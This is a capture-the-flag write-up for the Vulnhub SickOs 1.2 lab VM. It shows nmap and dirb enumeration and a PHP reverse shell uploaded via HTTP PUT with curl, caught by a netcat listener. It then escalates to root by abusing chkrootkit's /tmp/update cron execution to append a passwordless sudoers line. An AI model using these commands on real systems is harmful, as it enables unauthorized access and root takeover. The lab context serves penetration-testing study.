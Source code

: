 ```yaml
---
layout: single_c
title:  "Vulnhub - SickOs 1.2 Writeup"
toc: true
date:   2020-04-05 10:43:16 +0530
categories: Vulnhub
tags: OSCP
classes: wide
---
```

## Description
[Vulnhub - VulnOS 2.](https://www.vulnhub.com/entry/sickos-12,144/), This is second in following series from SickOs and is independent of the prior releases, scope of challenge is to gain highest privileges on the system.

## Enumeration
As usual, start off with an `nmap` scan.

### Nmap
```bash
Nmap scan report for sickos.com (192.168.1.4)
Host is up, received arp-response (0.00049s latency).
Scanned at 2020-04-04 11:21:38 EDT for 11s
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
80/tcp open  http    syn-ack ttl 64 lighttpd 1.4.28
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:40:C1:F5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  4 11:21:49 2020 -- 1 IP address (1 host up) scanned in 11.89 seconds
kali@kali:~/Desktop/tools/autorecon/results/sickos.com/scans$ 

```

We are greeted with an image on opening the web application.

### Dirb
Let's see if any directories can be enumerated.
```
kali@kali:/$ dirb http://sickos.com

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Apr  6 03:33:09 2020
URL_BASE: http://sickos.com/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612  

---- Scanning URL: http://sickos.com/ ----
+ http://sickos.com/index.php (CODE:200|SIZE:163) 
==> DIRECTORY: http://sickos.com/test/      
-----------------
END_TIME: Mon Apr  6 03:34:19 2020
DOWNLOADED: 4612 - FOUND: 1
```

Opening the directory gives us nothing other than the version number of `lighttpd`

## Low shell
Turns out, we can add any document to `\test` directory using `PUT`. We can upload a reverse shell and access it to get a shell.
I used the `php-reverse-shell` available in `kali`. Change the `ip` and `port` and upload it using `curl`

```bash
kali@kali:~/Desktop/vulnhub/sickos$ curl -T php-reverse-shell.php http://sickos.com/test/revshell.php --http1.0
kali@kali:~/Desktop/vulnhub/sickos$ nc -lvp 8080
listening on [any] 8080 ...
connect to [192.168.239.3] from sickos.com [192.168.239.4] 48633
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 14:35:03 up  3:52,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

There was something peculiar that I noticed while trying to get a reverse shell. Due to some reason, the reverse shells were not connecting to any higher ports. I guess there is some kind of firewall that is blocking the requests. Very few ports such as `80, 22, 8080` seems to be working.

## Low Shell Enum

### Cronjob
```bash
$ ls -la /etc/cron.daily
total 72
drwxr-xr-x  2 root root  4096 Apr 12  2016 .
drwxr-xr-x 84 root root  4096 Apr  5 10:42 ..
-rw-r--r--  1 root root   102 Jun 19  2012 .placeholder
-rwxr-xr-x  1 root root 15399 Nov 15  2013 apt
-rwxr-xr-x  1 root root   314 Apr 18  2013 aptitude
-rwxr-xr-x  1 root root   502 Mar 31  2012 bsdmainutils
-rwxr-xr-x  1 root root  2032 Jun  4  2014 chkrootkit
-rwxr-xr-x  1 root root   256 Oct 14  2013 dpkg
-rwxr-xr-x  1 root root   338 Dec 20  2011 lighttpd
-rwxr-xr-x  1 root root   372 Oct  4  2011 logrotate
-rwxr-xr-x  1 root root  1365 Dec 28  2012 man-db
-rwxr-xr-x  1 root root   606 Aug 17  2011 mlocate
-rwxr-xr-x  1 root root   249 Sep 12  2012 passwd
-rwxr-xr-x  1 root root  2417 Jul  1  2011 popularity-contest
-rwxr-xr-x  1 root root  2947 Jun 19  2012 standard
```
We have few `cronjobs` in `cron.daily`. There is a [exploit](https://www.exploit-db.com/exploits/33899) for `chkrootkit`. The exploit is that, the cronjob will execute the contents of `/tmp/update`. The `cronjob` is run as `root` so we can execute commands as `root`. The best option we be to add `www-data` to `sudoers` list to gain `root`.

## Root Shell
1. Add command into `/tmp/update` to include `www-data` as sudoer. We can add `www-data` as a sudoers without password.
2. Wait for the cronjob to run
3. And we are root!

```bash
$ echo "echo 'www-data ALL=(ALL) NOPASSWD: ALL'>>/etc/sudoers" > /tmp/update
$ sudo su
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz
7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
chkrootkit-0.49
newRule
yes
cat 7*
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```

## Afterthoughts

We can check the `iptables` to see why we were having difficulty in getting a reverse shell.

```bash
iptables -L
Chain INPUT (policy DROP)
target     prot opt source               destination         
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ssh
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:http-alt
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:https

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy DROP)
target     prot opt source               destination         
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:ssh
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:http
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http-alt
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:https
```

Only ports `22, 80, 443, 8080` are allowed via firewall. This part was really unexpected and I wasted a ton of time trying to figure out what the heck was wrong with the network configuration.